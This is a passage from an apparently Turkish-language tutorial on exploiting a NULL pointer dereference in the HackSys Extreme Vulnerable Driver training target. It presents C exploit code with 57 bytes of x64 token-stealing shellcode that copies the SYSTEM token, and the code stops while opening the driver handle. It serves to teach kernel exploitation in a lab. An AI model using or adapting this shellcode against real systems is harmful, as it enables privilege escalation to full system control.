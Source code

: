 Bu arada, burada aslında rax yazmacını en başta yedekleyip tekrar geri almaktansa, direkt olarak `xor rax, rax` yapıp sıfırlamak daha mantıklı olabilir (0  = STATUS_SUCCESS). Malum, `rax` değişkeni fonksiyonun durum bilgisini geri dönüyor, kodda en başta bu başarılı diye tanımlandığı için ben oraya dokunmadım fakat dilerseniz az önce bahsettiğim şekilde de yapabilirsiniz.

Sonuç olarak bu zafiyeti "*exploit*" edecek kodumuzun son hali şu şekilde:

```c
#include "stdafx.h"
#include <Windows.h>

#define HACKSYS_EVD_IOCTL_NULL_POINTER_DEREFERENCE CTL_CODE(FILE_DEVICE_UNKNOWN, 0x80A, METHOD_NEITHER, FILE_ANY_ACCESS)

typedef NTSTATUS (WINAPI *p_NtAllocateVirtualMemory)(
	HANDLE ProcessHandle,
	PVOID *BaseAddress,
	ULONG_PTR ZeroBits,
	PSIZE_T AllocationSize,
	ULONG AllocationType,
	ULONG Protect);

int main()
{
	BOOL Result             = FALSE;
	NTSTATUS NtStatus       = STATUS_UNSUCCESSFUL;
	DWORD Retval            = 0;
	ULONG SahteVeri         = 0xBEBEB000;
	HANDLE hDeviceHandle    = INVALID_HANDLE_VALUE;
	p_NtAllocateVirtualMemory a_NtAllocateVirtualMemory = NULL;
	const WCHAR* DeviceName = L"\\\\.\\HacksysExtremeVulnerableDriver";

	PVOID BaseAddress =(PVOID)1;
	SIZE_T Size       = 4096;

	printf("*** Cekirdegi Kitliyoruz - NULL gosterici cagirimi ***\n");

	//
	// "Token" calan parcacik
	//
	unsigned char cakal[57] = {
		0x50, 0x65, 0x48, 0x8B, 0x14, 0x25, 0x88, 0x01, 0x00, 0x00, 0x4C, 0x8B,
		0x5A, 0x70, 0x4D, 0x8B, 0x93, 0x88, 0x01, 0x00, 0x00, 0x49, 0x8B, 0x0A,
		0x48, 0x8B, 0x51, 0xF8, 0x48, 0x83, 0xFA, 0x04, 0x74, 0x05, 0x48, 0x8B,
		0x09, 0xEB, 0xF1, 0x48, 0x8B, 0x81, 0x80, 0x00, 0x00, 0x00, 0x24, 0xF0,
		0x49, 0x89, 0x83, 0x08, 0x02, 0x00, 0x00, 0x58, 0xC3
	};

	//
	// Parcacigin alanini calistirilabilir yap
	//
	DWORD oldProtect;
	VirtualProtect(cakal, sizeof(cakal), PAGE_EXECUTE_READWRITE, &oldProtect);

	//
	// Surucuye tutamak al
	//
	hDeviceHandle = CreateFile(
		DeviceName,
		GENERIC_READ | GENERIC_WRITE,
		FILE_SHARE_READ,
		NULL,
		OPEN_EXISTING,
		FILE_ATTRIBUTE_NORMAL,
		NULL);
```